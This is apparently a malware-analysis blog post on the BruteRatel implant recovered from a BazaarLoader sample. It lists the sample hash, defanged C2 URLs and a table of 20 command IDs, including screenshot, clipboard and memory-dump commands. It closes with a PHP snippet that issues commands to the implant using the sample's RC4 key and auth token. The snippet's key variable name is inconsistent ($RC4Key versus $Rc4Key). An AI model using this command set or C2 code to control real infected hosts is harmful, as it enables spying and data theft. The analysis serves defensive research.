 ```yaml
---
title: "BruteRatel full command analysis 1/X"
date: 2025-03-XX
---
```


<link rel="stylesheet" href="/css/main.css">

## BazaarLoader / BRUTERATEL  

## Context  

BruteRatel SHA256 : d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1  

Sample Source :  
[bazaar.abuse.ch](https://bazaar.abuse.ch/sample/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1/)   

VirusTotal :  
[VirusTotal](https://www.virustotal.com/gui/file/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1)  

Network / C2 :  
http://tiguanin[.]com/bazar.php:8041
http://tiguanin[.]com/admin.php:8041  
http://bazarunet[.]com/admin.php:8041  
http://bazarunet[.]com/bazar.php:8041  
http://greshunka[.]com/bazar.php:8041 
http://greshunka[.]com/admin.php:8041 

# INTRO  

This article is a follow-up from a previous post regarding a BazaarLoader sample analysis : [Initial Post](https://cedricg-mirror.github.io/2025/02/04/BazaarLoader.html)  
After going through various stages of unpacking and in-memory loading, I was able to retrieve the finale payload from the initial sample and made it available on [bazaar.abuse.ch](https://bazaar.abuse.ch/sample/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1/)  

Working on the final payload made the sample analysis much more straightforward and given the sheer amount of functionalities offered by this malware I've decided to review them all.  

This detailed analysis will be split into several parts, I will be presenting in this the 'first' 20 commands that BruteRatel can respond to.  

# COMMAND LIST

Here is a short description of the first 20 command codes and purpose :  

| Command ID   | Description             | Parameter     |
| :----------- | :---------------------- | :------------:|
| "\x9f\x3c"   | GetCurrentDirectory     | NA            |
| "\x3f\xd5"   | GetIpTable              | NA            |
| "\xfe\x4f"   | GetAccountPrivileges    | NA            |
| "\x91\x03"   | LockWorkStation         | NA            |
| "\x09\x06"   | GetLogicalDrives        | NA            |
| "\x01\x0a"   | GetSystemUptime         | NA            |
| "\x06\x0b"   | GetLastInputInfo        | NA            |
| "\x03\x07"   | ExitProcess             | NA            |
| "\x05\x06"   | RevertToSelf            | NA            |
| "\x05\x01"   | GetClipBoardData        | NA            |
| "\x44\xc1"   | EnumDevicesDrivers      | NA            |
| "\x41\x9c"   | Screenshot              | NA            |
| "\xcb\xe3"   | GetDomainControlerInfo  | NA            |
| "\x16\xf6"   | GetNetworkAdaptersInfo  | NA            |
| "\x03\x08"   | ExitThread              | NA            |
| "\x34\x49"   | GetMemoryDump           | "processname" |
| "\x39\xb3"   | GetTcpUdpTables         | NA            | 
| "\x1a\xd4"   | GetIpForwardTable       | NA            | 
| "\x9a\xbe"   | QuerySessionInformation | NA            | 
| "\xb7\x38"   | GetDnsCacheDataTable    | NA            |

On the C2 side, a command can be issued this way (example with the GetMemoryDump order) :  

```php
$RC4Key = "S47EFEUO3D2O6641";
$auth_token = "OV1T557KBIUECUM5";

function GetMemoryDump($process_name)
{
	$cmd_id = "\x34\x49 $process_name";
	$cmd_id_b64 = base64_encode($cmd_id);
	
	return $cmd_id_b64;
}

if ($_SERVER['REQUEST_METHOD'] === 'POST')
{
	$cmd_id_b64 = GetMemoryDump("explorer.exe");
	
	$cmd = "$auth_token, $cmd_id_b64";
	$cmd_enc = rc4($Rc4Key, $cmd);
	$cmd_b64 = base64_encode($cmd_enc);
	echo $cmd_b64;
	
	return;
}
```

